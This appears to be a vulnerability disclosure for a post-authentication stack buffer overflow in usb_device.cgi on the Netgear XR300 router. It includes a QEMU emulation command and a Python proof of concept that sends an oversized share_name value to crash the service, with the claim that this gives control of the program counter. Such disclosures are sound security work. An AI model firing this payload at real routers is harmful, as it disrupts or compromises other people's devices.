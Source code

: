 ## buffer overflow in share_neme of usb_device.cgi



**Affected Product**: Netgear XR300 Router
**Vulnerability Type**: Buffer Overflow

**Affected Firmware Versions**:  XR300-V1.0.3.38_10.3.30 

**CVE Identifier**: 

------

### **Vulnerability Details**

#### **Description**

A stack-based buffer overflow exists in the HTTPD service through the `usb_device.cgi` endpoint. The vulnerability occurs when processing POST requests containing the `share_name` parameter. Specifically:

1. The `sub_B7350` function handles requests to `usb_device.cgi`.
2. User-controlled `share_name` input is copied to buffer `v50` using `strcpy` without proper bounds checking.
3. The `v50` buffer is only **32 bytes** in size.
4. The service permits `share_name` values up to **0x800 bytes (2048 characters)**, creating an overflow condition 

This vulnerability requires authentication to exploit, making it a post-authentication vulnerability.

![image-20250524125016776](../res/image-20250524125016776-17480622189283-17480625821895.png)

![image-20250524125054841](../res/image-20250524125054841-17480622559834-17480625956616.png)



#### **QEMU Emulation Setup**

`sudo chroot . ./qemu-arm-static -E LD_PRELOAD="/nvram.so /lib/libdl.so.0"  -g 1234  ./usr/sbin/httpd`



![image-20250524123945917](../res/image-20250524123945917-17480615941411.png)





#### 

------

### **Proof of Concept (PoC)**



```
import requests
from requests.auth import HTTPBasicAuth

router_ip = "192.168.107.135"
url = f"http://{router_ip}/usb_device.cgi"
username = "1"
password = "1"
payload = 'A' * 2048

data = {
    "mode": "add_share",
    "share_name": payload
}

headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
}

try:
    response = requests.post(
        url,
        data=data,
        headers=headers,
        auth=HTTPBasicAuth(username, password),

    )

    print(f"HTTP Status: {response.status_code}")
    print("Response Content:")
    print(response.text)

    if "Internal Server Error" in response.text:
        print("Server Error Detected")
    elif response.status_code == 500:
        print("Internal Server Error (500)")
    elif response.status_code == 0:
        print("Connection Reset")

except requests.exceptions.ConnectionError:
    print("Connection Failed - Potential Service Crash")
except requests.exceptions.RequestException as e:
    print(f"Request Error: {str(e)}")
except Exception as e:
    print(f"Unexpected Error: {str(e)}")
```



### Exploitation Results


The PoC demonstrates successful overflow of the `v50` buffer on the stack. As shown in Figure,  the overflow overwrites the return address, granting control of the PC register. This enables arbitrary code execution by crafting a ROP chain or shellcode payload.

![image-20250524124832967](../res/image-20250524124832967-17480621144102.png)



![image-20250524125258636](../res/image-20250524125258636.png)